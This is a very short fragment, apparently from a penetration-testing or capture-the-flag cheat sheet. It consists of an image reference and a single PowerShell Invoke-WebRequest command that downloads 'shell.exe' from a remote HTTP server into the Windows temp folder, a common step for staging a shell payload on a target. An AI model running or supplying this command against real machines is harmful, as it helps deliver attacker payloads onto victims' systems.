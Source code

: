 Grabbing file from http server:

`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.10.10:80/shell.exe' -OutFile 'c:\windows\temp\shell.exe'`